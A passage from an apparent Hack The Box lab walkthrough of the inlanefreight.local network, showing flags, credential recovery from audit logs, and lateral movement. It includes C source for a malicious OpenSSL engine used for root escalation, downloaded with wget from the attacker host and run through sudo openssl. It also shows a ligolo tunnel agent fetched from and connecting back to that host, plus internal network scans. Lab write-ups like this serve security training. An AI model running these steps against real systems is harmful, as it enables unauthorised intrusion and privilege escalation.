

The same payload is used to read the flag:



**Flag:**

```
HTB{49f0bad299687c62334182178bfd75d8}
```

---

## vpn.inlanefreight.local



A login form is presented. No bypass or successful brute force was achieved against this vhost.

---

## DMZ01 Lateral movement from webdev to srvadm


```bash
webdev@dmz01:/home/webdev$ id
uid=1004(webdev) gid=1004(webdev) groups=1004(webdev),4(adm)
```

```bash
webdev@dmz01:/home/webdev$ ls /home
lab_adm  pixel  srvadm  tom  webdev
```

```bash
webdev@dmz01:/home/webdev$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lab_adm:x:1000:1000:lab_adm:/home/lab_adm:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
dnsmasq:x:113:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
pixel:x:1001:1001::/home/pixel:/bin/sh
tom:x:1002:1002::/home/tom:/bin/sh
srvadm:x:1003:1003::/home/srvadm:/bin/sh
ftp:x:114:120:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
bind:x:115:121::/var/cache/bind:/usr/sbin/nologin
dovecot:x:116:122:Dovecot mail server,,,:/usr/lib/dovecot:/usr/sbin/nologin
dovenull:x:117:123:Dovecot login user,,,:/nonexistent:/usr/sbin/nologin
postfix:x:118:124::/var/spool/postfix:/usr/sbin/nologin
webdev:x:1004:1004::/home/webdev:/bin/sh
_rpc:x:119:65534::/run/rpcbind:/usr/sbin/nologin
statd:x:120:65534::/var/lib/nfs:/usr/sbin/nologin
webdev@dmz01:/home/webdev$ 

```

```
webdev@dmz01:/home/webdev$ aureport --tty | less
Error opening config file (Permission denied)
NOTE - using built-in logs: /var/log/audit/audit.log
WARNING: terminal is not fully functional
-  (press RETURN)
TTY Report
===============================================
# date time event auid term sess comm data
===============================================
1. 06/01/22 07:12:53 349 1004 ? 4 sh "bash",<nl>
2. 06/01/22 07:13:14 350 1004 ? 4 su "ILFreightnixadm!",<nl>
3. 06/01/22 07:13:16 355 1004 ? 4 sh "sudo su srvadm",<nl>
4. 06/01/22 07:13:28 356 1004 ? 4 sudo "ILFreightnixadm!"
5. 06/01/22 07:13:28 360 1004 ? 4 sudo <nl>
6. 06/01/22 07:13:28 361 1004 ? 4 sh "exit",<nl>
7. 06/01/22 07:13:36 364 1004 ? 4 bash "su srvadm",<ret>,"exit",<ret>
8. 06/01/22 07:13:36 365 1004 ? 4 sh "exit",<nl>
9. 06/01/22 07:13:50 371 0 ? 2 bash "clear",<ret>,"aureport --ty",<ret>,"clear",
<ret>,<up>,<up>,<left>,<left>,"t",<ret>,<up>,<ret>,<up>,<ret>,<up>,<ret>,"clear"
,<ret>,<down>,<down>,<up>,<up>,<ret>
10. 06/01/22 10:25:00 341 0 ? 2 docker "ls",<ret>,"cd /var/www/html",<ret>,"ls",
<ret>,"ls -la",<ret>,"apt i",<backspace>,"update &7 apt inst",<backspace>,<backs
pace>,<backspace>,<backspace>,<backspace>,<backspace>,<backspace>,<backspace>,<b
ackspace>,<backspace>,"& apt install nano",<ret>,"nano in",<tab>,<ret>,<down>,<d
own>,<down>,<down>,<down>,<down>,<down>,<down>,<down>,<down>,<down>,<down>,<down
>,<down>,<down>,<down>,<down>,<down>,<down>,<down>,<down>,<down>,<down>,<down>,<
down>,<down>,<down>,<down>,<down>,<down>,<down>,<down>,<down>,<down>,<down>,<dow
:

```

ssh access as srvadm:

```
ssh srvadm@inlanefreight.local             
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
srvadm@inlanefreight.local's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-113-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue 10 Nov 2026 08:25:43 PM UTC

  System load:                      0.07
  Usage of /:                       93.7% of 13.72GB
  Memory usage:                     64%
  Swap usage:                       0%
  Processes:                        438
  Users logged in:                  0
  IPv4 address for br-65c448355ed2: 172.18.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for ens160:          10.129.229.147
  IPv6 address for ens160:          dead:beef::250:56ff:fe8a:405f
  IPv4 address for ens192:          172.16.8.120

  => / is using 93.7% of 13.72GB

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

82 updates can be applied immediately.
16 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.


Last login: Wed Jun  1 07:08:59 2022 from 127.0.0.1
$ id
uid=1003(srvadm) gid=1003(srvadm) groups=1003(srvadm)
$ sudo -l
Matching Defaults entries for srvadm on dmz01:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User srvadm may run the following commands on dmz01:
    (ALL) NOPASSWD: /usr/bin/openssl
$ 

```

## Privesc on DMZ01

https://medium.com/@shehacks_/from-sudo-openssl-to-root-privilege-escalation-with-dynamic-engine-abuse-c7e9e86ef41a

```c
#include <openssl/engine.h>
#include <unistd.h>

static int bind(ENGINE *e, const char *id) {
    setuid(0);
    setgid(0);
    system("/bin/bash -i");
    return 1;
}
IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()
```

```bash
gcc -fPIC -c exploit.c 
gcc -shared -o exploit.so exploit.o -lcrypto
```

```
$ wget http://10.10.15.11:8081/exploit.so
--2026-11-10 20:38:40--  http://10.10.15.11:8081/exploit.so
Connecting to 10.10.15.11:8081... connected.
HTTP request sent, awaiting response... 200 OK
Length: 15712 (15K) [application/octet-stream]
Saving to: ‘exploit.so’

exploit.so                  100%[===========================================>]  15.34K  --.-KB/s    in 0.04s   

2026-11-10 20:38:40 (393 KB/s) - ‘exploit.so’ saved [15712/15712]

$ chmod +x exploit.so
$ sudo openssl req -engine ./exploit.so
root@dmz01:/home/srvadm# id
uid=0(root) gid=0(root) groups=0(root)
root@dmz01:/home/srvadm# 

```

## Root flag

```
root@dmz01:~# ls
flag.txt  snap
root@dmz01:~# cat flag.txt
a34985b5976072c3c148abc751671302
root@dmz01:~# 

```

---

## Pivoting with ligolo

Lots of interfaces, but the area of interest is the one scoped, so 172.16.8.0/23

```
root@dmz01:~# ifconfig
br-65c448355ed2: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.18.0.1  netmask 255.255.0.0  broadcast 172.18.255.255
        inet6 fe80::42:5fff:fe83:fef5  prefixlen 64  scopeid 0x20<link>
        ether 02:42:5f:83:fe:f5  txqueuelen 0  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 10  bytes 1076 (1.0 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

docker0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.17.0.1  netmask 255.255.0.0  broadcast 172.17.255.255
        inet6 fe80::42:b3ff:fe78:d49b  prefixlen 64  scopeid 0x20<link>
        ether 02:42:b3:78:d4:9b  txqueuelen 0  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 4  bytes 384 (384.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

ens160: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.129.229.147  netmask 255.255.0.0  broadcast 10.129.255.255
        inet6 fe80::250:56ff:fe8a:405f  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef::250:56ff:fe8a:405f  prefixlen 64  scopeid 0x0<global>
        ether 00:50:56:8a:40:5f  txqueuelen 1000  (Ethernet)
        RX packets 17032  bytes 1392847 (1.3 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 3301  bytes 2439029 (2.4 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

ens192: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.16.8.120  netmask 255.255.0.0  broadcast 172.16.255.255
        inet6 fe80::250:56ff:fe8a:e58f  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:8a:e5:8f  txqueuelen 1000  (Ethernet)
        RX packets 1205  bytes 81229 (81.2 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 54  bytes 4656 (4.6 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 4114  bytes 322406 (322.4 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 4114  bytes 322406 (322.4 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

veth6866044: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet6 fe80::ecf2:63ff:fe42:5dfa  prefixlen 64  scopeid 0x20<link>
        ether ee:f2:63:42:5d:fa  txqueuelen 0  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 15  bytes 1146 (1.1 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

veth12a21e7: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet6 fe80::bc9e:8cff:fe33:b3b5  prefixlen 64  scopeid 0x20<link>
        ether be:9e:8c:33:b3:b5  txqueuelen 0  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 16  bytes 1256 (1.2 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

veth2dc940b: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet6 fe80::44b3:e8ff:feb6:75cb  prefixlen 64  scopeid 0x20<link>
        ether 46:b3:e8:b6:75:cb  txqueuelen 0  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 17  bytes 1366 (1.3 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

veth3a8bb86: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet6 fe80::88a2:3eff:fee8:6eea  prefixlen 64  scopeid 0x20<link>
        ether 8a:a2:3e:e8:6e:ea  txqueuelen 0  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 15  bytes 1146 (1.1 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

veth607e66c: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet6 fe80::81b:59ff:fe91:83e6  prefixlen 64  scopeid 0x20<link>
        ether 0a:1b:59:91:83:e6  txqueuelen 0  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 15  bytes 1146 (1.1 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

veth6fb53c7: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet6 fe80::c455:63ff:febc:94e1  prefixlen 64  scopeid 0x20<link>
        ether c6:55:63:bc:94:e1  txqueuelen 0  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 15  bytes 1146 (1.1 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

veth9475f2b: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet6 fe80::c0c3:61ff:fe04:9d31  prefixlen 64  scopeid 0x20<link>
        ether c2:c3:61:04:9d:31  txqueuelen 0  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 17  bytes 1366 (1.3 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

veth95a7dfd: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet6 fe80::c4f0:c4ff:feb0:8843  prefixlen 64  scopeid 0x20<link>
        ether c6:f0:c4:b0:88:43  txqueuelen 0  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 16  bytes 1256 (1.2 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

vethcd2e29c: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet6 fe80::b0d0:68ff:fe7e:e7bf  prefixlen 64  scopeid 0x20<link>
        ether b2:d0:68:7e:e7:bf  txqueuelen 0  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 16  bytes 1256 (1.2 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

vethd5cf06d: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet6 fe80::58d9:3ff:fedc:f412  prefixlen 64  scopeid 0x20<link>
        ether 5a:d9:03:dc:f4:12  txqueuelen 0  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 15  bytes 1146 (1.1 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

vethe76e832: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet6 fe80::10b9:d2ff:feb0:3eac  prefixlen 64  scopeid 0x20<link>
        ether 12:b9:d2:b0:3e:ac  txqueuelen 0  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 15  bytes 1146 (1.1 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

vethf441d90: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet6 fe80::50eb:cbff:fe78:dc3a  prefixlen 64  scopeid 0x20<link>
        ether 52:eb:cb:78:dc:3a  txqueuelen 0  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 15  bytes 1146 (1.1 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

root@dmz01:~# 

```

```
root@dmz01:~# for i in {1..254} ;do (ping -c 1 172.16.8.$i | grep "bytes from" &) ;done
64 bytes from 172.16.8.3: icmp_seq=1 ttl=128 time=1.83 ms
64 bytes from 172.16.8.20: icmp_seq=1 ttl=128 time=0.828 ms
64 bytes from 172.16.8.50: icmp_seq=1 ttl=128 time=0.749 ms
64 bytes from 172.16.8.120: icmp_seq=1 ttl=64 time=0.019 ms

```

>Kali

```bash
sudo ip tuntap add user root mode tun tunnel1
sudo ip link set tunnel1 up
```

```bash
sudo ligolo-proxy -selfcert                               
```

>DMZ01

```bash
root@dmz01:~# wget http://10.10.15.11:8081/agent
--2026-11-10 20:51:48--  http://10.10.15.11:8081/agent
Connecting to 10.10.15.11:8081... connected.
HTTP request sent, awaiting response... 200 OK
Length: 7164088 (6.8M) [application/octet-stream]
Saving to: ‘agent’

agent                       100%[===========================================>]   6.83M  1.03MB/s    in 5.5s    

2026-11-10 20:51:53 (1.24 MB/s) - ‘agent’ saved [7164088/7164088]

root@dmz01:~# chmod +x agent
root@dmz01:~# ./^Cgolo-agent -connect 10.10.15.11:11601 -ignore-cert
root@dmz01:~# ./agent -connect 10.10.15.11:11601 -ignore-cert
WARN[0000] warning, certificate validation disabled     
INFO[0000] Connection established                        addr="10.10.15.11:11601"


```

```
ligolo-ng » INFO[0342] Agent joined.                                 id=0050568a405f name=root@dmz01 remote="10.129.229.147:53920"
ligolo-ng » session
? Specify a session : 1 - root@dmz01 - 10.129.229.147:53920 - 0050568a405f
[Agent : root@dmz01] »  

```

```
[Agent : root@dmz01] » autoroute
? Select routes to add: 172.16.8.120/16
? Create a new interface or use an existing one? Create a new interface
? Enter interface name (leave empty for random name): tunnel
INFO[0383] Using custom interface name: tunnel          
INFO[0383] Interface tunnel configured (will be created on tunnel start) 
INFO[0383] Creating routes for tunnel...                
? Start the tunnel? Yes
INFO[0387] Starting tunnel to root@dmz01 (0050568a405f) 
[Agent : root@dmz01] » session
? Specify a session : 1 - root@dmz01 - 10.129.229.147:55100 - 0050568a405f
[Agent : root@dmz01] » tunnel_list
┌───────────────────────────────────────────────────────────────────────────┐
│ Active sessions and tunnels                                               │
├───┬──────────────────────────────────────────────────┬───────────┬────────┤
│ # │ AGENT                                            │ INTERFACE │ STATUS │
├───┼──────────────────────────────────────────────────┼───────────┼────────┤
│ 1 │ root@dmz01 - 10.129.229.147:55100 - 0050568a405f │ tunnel    │ Online │
└───┴──────────────────────────────────────────────────┴───────────┴────────┘
```

```
sudo ip route add 172.16.8.0/23 dev tunnel
```

```
 netexec smb 172.16.8.0/23                 
SMB         172.16.8.3      445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         172.16.8.20     445    ACADEMY-AEN-DEV  [*] Windows 10 / Server 2019 Build 17763 x64 (name:ACADEMY-AEN-DEV) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:None)
SMB         172.16.8.50     445    ACADEMY-AEN-MS0  [*] Windows 10 / Server 2019 Build 17763 x64 (name:ACADEMY-AEN-MS0) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:None)
Running nxc against 512 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00

```

```
sudo nmap -sT -Pn 172.16.8.3              
Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-10 17:00 -0500
Nmap scan report for 172.16.8.3
Host is up (0.086s latency).
Not shown: 988 closed tcp ports (conn-refused)
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
5985/tcp open  wsman

Nmap done: 1 IP address (1 host up) scanned in 5.45 seconds
                                                              
```

```
 sudo nmap -sT -Pn 172.16.8.20
Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-10 17:00 -0500
Nmap scan report for 172.16.8.20
Host is up (0.12s latency).
Not shown: 992 closed tcp ports (conn-refused)
PORT     STATE SERVICE
80/tcp   open  http
111/tcp  open  rpcbind
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
2049/tcp open  nfs
3389/tcp open  ms-wbt-server
5985/tcp open  wsman

Nmap done: 1 IP address (1 host up) scanned in 9.38 seconds

```

```
sudo nmap -sT -Pn 172.16.8.50
Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-10 17:01 -0500
Nmap scan report for 172.16.8.50
Host is up (0.062s latency).
Not shown: 994 closed tcp ports (conn-refused)
PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
5985/tcp open  wsman
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 1.41 seconds

```